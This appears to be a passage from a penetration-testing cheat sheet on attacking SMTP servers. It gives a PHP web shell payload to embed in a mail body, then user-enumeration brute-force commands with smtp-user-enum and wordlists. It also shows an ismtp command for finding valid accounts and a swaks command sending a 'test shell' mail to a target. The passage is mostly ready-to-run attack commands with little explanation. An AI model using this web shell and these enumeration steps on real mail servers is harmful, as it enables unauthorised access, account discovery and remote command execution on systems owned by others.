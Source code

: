 
`PHP` payload can be specified in body.

```text
data
<?php system($_GET['cmd']); ?>
```


Generate date using the following command.

```bash
date '+%a, %d %b %Y %H:%M:%S %z'
```


**Brute-Force**

Enumerate users if not found from `nmap nse` script. Download `smtp-user-enum` binaries from https://pentestmonkey.net/tools/smtp-user-enum/smtp-user-enum-1.2.tar.gz and modify the path, if not available already.

```bash
smtp-user-enum -M VRFY -U /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt -t ${IP}
smtp-user-enum -M EXPN -U /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt -t ${IP}
smtp-user-enum -M RCPT -U /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt -t ${IP}

DOMAIN="" ; smtp-user-enum -D ${DOMAIN} -M RCPT -U /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt -t ${IP}
```

```text

```

Other wordlists which can be used.
- `/usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt`
- `/usr/share/wordlists/SecLists/Usernames/Names/names.txt`
- `/usr/share/wordlists/metasploit/unix_users.txt`
- `/usr/share/wordlists/fastax.txt`


Find valid email accounts. Download `ismtp` binaries from https://github.com/altjx/ipwn/tree/master/iSMTP and modify the path, if not available already.

```bash
ismtp -h ${IP}:25 -e emails.txt
```

```text

```


**Send/Retrieve Mails**

The package `swaks` and `sendemail` will be installed by default. If missing, install manually.

```bash
USER="" DOMAIN="" ; swaks --to ${USER}@${DOMAIN} --from ${USER}@${DOMAIN} --header "Subject: test shell" --body 'sample test mail' --server ${IP}
```
